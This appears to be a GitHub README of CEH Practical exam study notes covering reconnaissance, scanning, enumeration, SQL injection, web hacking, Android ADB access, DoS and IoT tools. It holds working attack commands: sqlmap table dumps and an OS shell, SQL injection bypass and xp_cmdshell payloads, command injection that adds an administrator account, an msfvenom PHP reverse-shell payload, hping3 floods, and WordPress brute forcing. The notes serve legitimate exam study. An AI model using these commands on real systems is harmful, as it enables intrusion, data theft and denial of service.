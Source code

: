## 2)Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## 3)Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 

-  ### Tools:
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/248179ca-8bb3-4bf4-ba33-c6520e0054df)

</details>


## 4)Enumeration
<details>
    <summary>Enumeration</summary>

###  1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## 5) Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

### Nessus Vulnerability Scanner
-
```bash

```
### Nikto
-
```bash
nikto -h url -Cgidirs all
```
</details>

## 17) Android Hacking
<details>
    <summary>Android Hacking</summary>

    
### ADB
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```

#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```

### Phonesploit
- Refer README.md
  
</details>

## 15) SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- 
```
</details>

## 8) Sniffing
<details>
    <summary> Wireshark</summary>
      - Some useful wireshark command 
```
filter : http
option --> find packet->> select string --> pwd  // to find pwd string in packets
```
=======================================================================================================================================================================
- Sets a filter for any packet that has x.x.x.x as the source or destination IP address. This is very useful if, let’s say, you want to analyze specific traffic. Applying this filter helps you analyze outgoing traffic to see which one matches the IP or source you’re looking for.
```
ip.addr == x.x.x.x
``` 
 
- You can also choose to use ``` ip.dst == x.x.x.x```  to filter only by destination or ``` ip.src == x.x.x.x ``` to filter by source.
 
- Sets a conversation filter between two specific IP addresses. This one helps you check the data between two specific hosts or networks. It helps you when you are looking for specific data, so you don’t have to go through others that don’t interest you. 
 ```
ip.addr == x.x.x.x && ip.addr == x.x.x.x 

(or ip.src == xxxx && ip.dst == xxxx - for a destination)
``` 

Sets a filter to display all http and dns protocols. It lets you narrow down to the exact protocol you need. So, if you need to track down an odd FTP traffic, then you just have to set it for ‘ftp’. Want to find out why some websites don’t appear? You just have to set it to ‘dns’.
```
http or dns
```


tcp.port==xxx

Sets filters for any TCP packet with a specific source or destination port. Sometimes is just useful and less time consuming to look only at the traffic that goes into or out of a specific port.

 
- Sets filters to display all TCP resets. All packets have a TCP, if this is set to 1, it tells the receiving computer that it should at once stop using that connection. So, this filter is a powerful one, being that a TCP reset kills a TCP connection immediately.
- 
tcp.flags.reset==1



 

tcp contains xxx

It’s a filter that displays all TCP packets that contain a certain term (instead of xxx, use what term you’re looking for). For example, if you are looking for a specific term appearing in the packet, this filter is what you need.

 
- Follows a tcp stream.
```
tcp.stream eq X
```

- Filters by sequence number.
```
tcp.seq == x
```
 
- Important for troubleshooting, this filter detects push events.
``` 
tcp.flags.push == 1
```

- This one filters all HTTP GET and POST requests. It can show the most accessed webpages.
````
 http.request
 ````

- Designed to filter out certain types of protocols, it masks out arp, icmp, dns, or other protocols you think are not useful. This will allow you to focus of what traffic interests you.
```
 !(arp or icmp or dns)
 ```

- It sets a filter for certain HEX values at any offset.
```
udp contains xx:xx:xx
```


 
- Indicates which dns requests couldn't be correctly resolved.
 ```
dns.flags.rcode != 0
 ```

</details>

</details>


## Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.
### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

### 3) WPScan
- SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

- Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
    
```
### 4) RCE
- In DVWA application to ping.
```bash
| hostname  //name of target machine
| whoami   // user,groups,privileges
| tasklist  //lists running process
| dir C:\
| net user
| net user Test /Add
| net user 
| net user Test //displays info about user Test
| net localgroup Administrators Test /Add
| net user Test //now it's in Administrator

```
- To launch Remote Desktop Connection, navigate to ```Start--> Windows Accessories--> Remote Desktop Connection```

### 5)Web Application Framework
<details>
<summary> Auditing </summary>

#### Tools: Vega(Linux)
- Enter URL --> select Injection and Response modules --> click yes --> check Scan summary


###  WVS 
#### Tool: Acunetics WVS

</details>

### 6) File Upload Vulnerbility
-  ``` msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw ```  
- This command will generate a php raw payload.
- copy the payload and make a .php file
-  ```msfconsole``` . Now you have to establish a meterpreter session with your victim
```
Type use multi/handler and hit Enter.
Type set payload
php/meterpreter/reverse_tcp and hit
Enter.
Type set lhost 10.10.10.11 and hit Enter.
set Iport 4444
and hit Enter.
- vist the uri where the file is to execute on web browser
```
</details>

# Social Engineering
<details>
    <summary>Social</summary>

### Tool: Social Engineering Toolkit(linux)

</details>

# DOS
<details>
    <summary>
        DoS 
    </summary>
- Spoof IP
- SYN Flooding
```
use auxiliary/dos/tcp/synflood
show options
SYN flooding on port 4444
set timeout 20000 //rest as shown in option
```
   

# Session Hijacking
<details>
    <summary>Session Hijacking</summary>


</details>


## Host DIscovery
<details>
    <summary>Hsot Discover</summary>
```
ARP Ping Scan:           nmap -sn -PR <Target IP Address>    ARP request probe
UDP Ping Scan:           nmap -sn -PU <Target IP Address>    UDP request
ICMP ECHO Ping Scan:     nmap -sn -PE <Target IP Address>    ICMP LCBO request

</details>

## IOT Hacking
<details>
    <summary>IOT</summary>
    
### Tools:
- Shodan.io

- CRITIFENCE
```
 CRITIFENCE is an online database that stores default passwords of critical infrastructure, SCADA, [CS, and 110T Attackers can use this tool to discover
the default credentials of an OT system It lists information such as product code, vendor, device type and its default username and password
  ```
- Nmap
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/dbe2d60e-4af9-4376-b4ed-baa7e21dee5d) // nmap different types of scans.

- Scada
    - SCADA Shutdown Tool is an ICS testing and automation tool that allows attackers to fuzz, scan, and run remote commands on ICS/SCADA networks and controllers
    - Attackers use this tool to examine and enumerate slave controllers and SCADA security systems as well as read register values of the controller and rewrite register data.
      
- #### Other Tools
      - Nessus
      - wireshark
</details>

## Cryptography
<details>
    <summary>Cryptography</summary>
</details>
